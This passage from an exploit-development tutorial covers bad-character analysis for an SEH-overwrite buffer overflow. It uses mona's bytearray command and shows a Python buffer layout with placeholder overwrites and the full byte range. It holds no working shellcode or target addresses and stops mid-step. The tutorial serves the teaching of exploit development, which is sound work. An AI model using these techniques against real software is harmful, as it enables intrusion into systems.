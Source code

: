 Now, next step is to find out which bad characters will stuff up our payload. In this case, because we need to send an entire GET request, it is easy to predict that `\x00` will be a bad character, as it denotes end of string and will cut our payload short.

We can automatically exclude the NULL byte, but are there any others? Let's find out now, before we start playing with ROP and choosing addresses that may contain bytes that will be messing up our payload.

Let's generate a bytearray (and exclude NULL byte) with `!mona bytearray -cpb '\x00'`. It will create 2 files, `bytearray.txt` and `bytearray.bin`. Copy-paste generated string from `bytearray.txt` into the exploit **AFTER** the part of overwriting `EAX` register.

Why? Because to trigger the crash, we want to overwrite `EAX`, if we put bytearray with potentially bad characters before we overwrite the `EAX` to trigger a crash, bad character that we don't know of may actually cut our payload short and we'll never trigger the crash!

Our buffer should look like this:

{% codeblock lang:python %}
buffer = "A" * seh_offset					# padding
buffer += "BBBB"							# overwrite nSEH pointer
buffer += "CCCC"							# overwrite SEH record
buffer += "A" * (eax_offset - len(buffer))	# padding
buffer += "DDDD"							# overwrite EAX to always trigger an exception
buffer += ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
{% endcodeblock %}

Trigger the crash again and investigate the stack, trying to find an address where the bytearray starts:
